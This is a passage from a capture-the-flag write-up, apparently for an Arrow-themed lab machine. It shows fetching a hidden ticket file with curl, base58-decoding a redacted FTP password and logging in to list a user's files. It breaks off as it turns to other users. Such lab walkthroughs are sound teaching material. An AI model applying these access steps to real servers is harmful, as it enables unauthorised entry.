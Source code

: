 
## FTP Access

### What is the FTP Password?

- Visit `island/2100/green_arrow.ticket`.
- You'll find the base58 encoded version of the FTP password

```bash
$ curl http://10.10.4.71/island/2100/green_arrow.ticket 

This is just a token to get into Queen's Gambit(Ship)

<REDACTED>

$ echo <REDACTED> | base58 -d
<REDACTED>
```


### Download the files

- Download all the files in the ftp folder:

```bash
$ ftp 10.10.4.71
Connected to 10.10.4.71.
220 (vsFTPd 3.0.2)
Name (10.10.4.71:root): vigilante
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 May 05  2020 .
drwxr-xr-x    4 0        0            4096 May 01  2020 ..
-rw-------    1 1001     1001           44 May 01  2020 .bash_history
-rw-r--r--    1 1001     1001          220 May 01  2020 .bash_logout
-rw-r--r--    1 1001     1001         3515 May 01  2020 .bashrc
-rw-r--r--    1 0        0            2483 May 01  2020 .other_user
-rw-r--r--    1 1001     1001          675 May 01  2020 .profile
-rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05  2020 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg
226 Directory send OK.
```

### Other users

- We can also check the other users (can be used later) by escaping out of that directory:
